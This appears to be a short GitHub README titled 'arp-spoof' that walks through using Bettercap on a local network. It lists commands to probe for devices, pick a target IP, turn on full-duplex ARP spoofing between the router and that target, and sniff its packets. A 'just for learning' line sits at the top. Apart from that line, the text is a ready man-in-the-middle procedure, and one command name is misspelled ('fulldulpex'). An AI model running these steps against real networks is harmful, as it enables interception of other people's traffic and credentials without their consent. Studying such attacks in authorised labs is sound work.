 # arp-spoof
Important : This code juste for learning  : This code get information for other {ip,......} and how choice targets and attking

Here’s a description of how to use the commands:

Using Bettercap for Wi-Fi Targeting
Start Bettercap
1  :  Run the following command to view help documentation and ensure Bettercap is installed properly:
                sudo bettercap help
2 : Enable Network Probing
Use this command to activate network probing and discover devices on the network:
                net.probe on
3  : View Discovered Network Devices
Display a list of devices detected during network probing:
                net.show
4 : Enable ARP Spoofing
        Set ARP spoofing to full-duplex mode for bidirectional packet interception:
       1)         set arp.spoof.fulldulpex true
       Specify the target device's IP address for ARP spoofing :
       2)        set arp.targets <TARGET_IP>
       Activate ARP spoofing to intercept traffic between the router and the target:
       3)        arp.spoof on

5  :  Activate Packet Sniffing
Enable network sniffing to capture and analyze packets from the targeted device:
              net.sniff on




